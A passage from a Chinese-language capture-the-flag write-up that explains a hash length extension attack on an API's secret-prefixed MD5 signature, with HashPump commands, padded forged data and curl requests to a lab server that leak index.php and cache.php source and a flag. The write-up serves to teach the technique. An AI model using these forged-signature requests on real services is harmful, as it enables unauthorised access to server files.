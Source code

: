 因为数据在被hash的时候会被分割成固定长度的块，前面的块生成的hash会放入下一个块中和块的内容一起继续hash，直到最后一个块，最后一个块生成的hash就是我们最后得到的hash，也就是前面的api_sig。

现在我们知道了前面所有块产生的hash，如果我们自己再造一个块，把这个hash当成前面的块的hash放进我们自己建立的块中来hash一下会发生什么?

结果我们在不知道secret的情况下获得了可以在原文后添加任意内容并且产生合法hash的方法。

大部分web server在处理同样参数的不同内容时倾向于选择后面的，例如foo=1&foo=2，最后foo的值是2，但是有些web server也会使用前面的，这样这个方法是不是就不能用了?

根据这个API的文档，参数和值会拼接在一起然后一起hash，例如，foo=bar&foo1=bar1会被变成字符串foobarfoo1bar1，所以假如我们把foo=bar变成fo=obar，拼接后的字符串还是foobarfoo1bar，这样我们就可以完全控制需要更改的参数了。

现在开始利用这个漏洞，首先下载并且编译工具 HashPump (https://github.com/bwall/HashPump)，然后利用它来生成我们需要的hash。因为我们不知道secret的长度，所以需要穷举key的长度(hashpump的k参数)

```
#> ./hashpump ­s 6854c04381284dac9970625820a8d32b ­­data
contenttypetext/plainfilepath./documents/rest­api­v2.txtid3 ­a
contenttypetext/plainfilepath./index.phpid3 ­k 16
4625e458d07cb19da70effa3d1c6dc14
contenttypetext/plainfilepath./documents/rest­api­v2.txtid3\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00X\x02\x00\x00\x00\x00\x00\x00contenttypetext/plainfilepath./index.phpid3 

```

我们把每次尝试k值生成的hash和字符串用curl提交到服务器，直到服务器提示成功为止，经过多次测试，我们发现k值是16.

```
#> curl ­-X PUT -­d
'c=ontenttypetext/plainfilepath./documents/rest­api­v2.txtid3%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00X%02%00%00%00%00%00%00&contenttype=text/plain&filepath=./index.php&api_sig=4625e458d07cb19da70effa3d1c6dc14'  ­H 'X­Auth:b32GjABvSf1Eiqry' http://172.16.1.80/api/documents/id/3

```

接下来我们就成功获取了index.php的源码(成功的把index.php的源码作为document id 3 保存):

```
#> curl http://172.16.1.80/api/documents/id/3
<?php
// Not in production... see /cache.php?access=<secret>
include('../lib/caching.php');
if (isset($_GET['debug'])) {
readFromCache();
}
**** SNIP **** 

```

似乎这个cache.php有点意思，我们改改上面的hash长度攻击利用代码，把index.php换成cache.php,这次我们成功的拿到了flag。

```
#> curl http://172.16.1.80/api/documents/id/3
**** SNIP ****
$flag = 'OrganicPamperSenator877';
if ($_GET['access'] != md5($flag)) {
header('Location: /index.php');
die();
}
**** SNIP **** 

```
